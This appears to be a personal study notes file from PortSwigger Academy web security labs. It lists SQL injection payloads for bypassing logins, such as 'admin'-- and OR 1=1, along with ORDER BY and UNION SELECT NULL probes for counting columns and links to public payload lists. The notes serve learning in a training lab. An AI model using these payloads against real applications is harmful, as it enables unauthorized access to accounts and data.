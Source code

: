 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after

Payloads that just worked somewhere:
```
'--
admin'--
administrator'--
'+OR+1=1--
' OR 1=1 --
OR 1=1 --
```
So how many collumns do we have? 
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

